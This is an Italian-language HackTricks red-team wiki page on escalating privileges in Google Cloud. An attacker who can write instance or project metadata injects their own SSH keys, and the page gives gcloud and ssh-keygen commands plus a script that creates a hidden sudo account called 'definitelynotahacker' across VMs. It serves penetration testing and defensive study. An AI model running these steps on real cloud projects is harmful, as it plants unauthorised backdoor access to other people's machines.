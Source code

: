 # GCP - Aggiungere Metadati SSH Personalizzati

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di Github.

</details>
{% endhint %}

## Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe comportare **significativi rischi per la sicurezza se un attaccante acquisisce le autorizzazioni necessarie**.

### **Incorporazione delle Chiavi SSH nei Metadati Personalizzati**

Su GCP, i **sistemi Linux** eseguono spesso script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** il punto finale dei metadati dell'istanza per **aggiornamenti delle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta nel file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

### **Aggiungere una chiave SSH a un utente privilegiato esistente**

1. **Esaminare le Chiavi SSH Esistenti sull'Istanza:**
- Eseguire il comando per descrivere l'istanza e i suoi metadati per individuare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, in particolare la chiave `ssh-keys`.
```bash
gcloud compute instances describe [ISTANZA] --zone [ZONA]
```
- Prestare attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.

2. **Preparare un File di Testo per i Metadati delle Chiavi SSH:**
- Salvare i dettagli dei nomi utente e delle rispettive chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per conservare le chiavi esistenti mentre se ne aggiungono di nuove.

3. **Generare una Nuova Chiave SSH per l'Utente Target (`alice` in questo esempio):**
- Utilizzare il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandosi che il campo commento (`-C`) corrisponda al nome utente target.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Aggiungere la nuova chiave pubblica a `meta.txt`, imitando il formato trovato nei metadati dell'istanza.

4. **Aggiornare i Metadati delle Chiavi SSH dell'Istanza:**
- Applicare i metadati delle chiavi SSH aggiornati all'istanza utilizzando il comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [ISTANZA] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedere all'Istanza Utilizzando la Nuova Chiave SSH:**
- Connettersi all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Creare un nuovo utente privilegiato e aggiungere una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno dati privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare la portata dell'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non abbia esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le Chiavi SSH a Livello di Progetto:**
- Utilizza il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute su tutte le VM nel progetto, a meno che una VM abbia abilitata l'opzione "Blocca le chiavi SSH a livello di progetto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accedi alle Istanze Utilizzando le Chiavi a Livello di Progetto:**
- Con le chiavi SSH a livello di progetto in posizione, puoi accedere via SSH a qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo l'accesso.
- Un metodo diretto per accedere via SSH a un'istanza è utilizzare il comando `gcloud compute ssh [ISTANZA]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.


# Riferimenti
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
